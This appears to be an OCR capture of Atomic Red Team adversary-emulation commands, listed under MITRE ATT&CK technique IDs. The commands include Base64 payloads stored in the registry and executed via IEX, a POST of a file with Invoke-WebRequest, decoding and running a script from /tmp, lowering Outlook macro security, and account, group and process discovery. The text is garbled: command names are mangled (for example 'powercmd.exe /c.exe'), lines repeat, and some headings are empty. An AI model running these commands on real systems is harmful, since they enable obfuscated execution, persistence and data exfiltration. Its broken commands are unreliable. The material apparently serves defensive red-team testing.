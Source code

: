 Set-ItemProperty -Force -Path #{registry_key_storage} -Name Debug -Value $EncodedCommand
powercmd.exe /c.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} Debug).Debug)))"
* $OriginalCommand = '#{powercmd.exe /c_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path HKCU:Software\Microsoft\Windows\CurrentVersion -Name #{registry_entry_storage} -Value $EncodedCommand
powercmd.exe /c.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:Software\Microsoft\Windows\CurrentVersion #{registry_entry_storage}).#{registry_entry_storage})))"
* Invoke-WebRequest -Uri 127.0.0.1 -Method POST -Body #{input_file}
* sh -c "echo ZWNobyBIZWxsbyBmcm9tIHRoZSBBdG9taWMgUmVkIFRlYW0= > /tmp/encoded.dat"
cat /tmp/encoded.dat | base64 -d > /tmp/art.sh
chmod +x /tmp/art.sh
/tmp/art.sh
* "%temp%\temp_T1027.zip\T1027.exe"
* [a-z0-9]{1}.exe
* *.exe \*.exe\:Zone.Identifier:$DATA"
##T1588: Obtain Capabilities
##T1137: Office Application Startup
* reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /t REG_DWORD /d 1 /f
mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
echo "Atomic Red Team TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
##T1201: Password Policy Discovery
* cat /etc/security/pwquality.conf
* net accounts
* net accounts /domain
* cat /etc/login.defs
* pwpolicy getaccountpolicies
* cat /etc/pam.d/common-password
* cat /etc/pam.d/system-auth
cat /etc/security/pwquality.conf
* net accounts /domain
* cat /etc/pam.d/common-password
* pwpolicy getaccountpolicies
* net accounts
##T1034: Path Interception
##T1120: Peripheral Device Discovery
* Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
* lpq -a
* system_profiler SPUSBDataType
##T1069: Permission Groups Discovery
* net localgroup "Administrators"
* cmd.exe /c net localgroup "Administrators"
* net group ["Domain Admins"] /domain
* net group ["Domain Admins"] /domain[:DOMAIN]
##T1566: Phishing
##T1598: Phishing for Information
##T1542: Pre-OS Boot
##T1057: Process Discovery
* ps
cmd.exe /c tasklist /v [/svc]
cmd.exe /c net start
* tasklist /v [/svc]
net start
qprocess *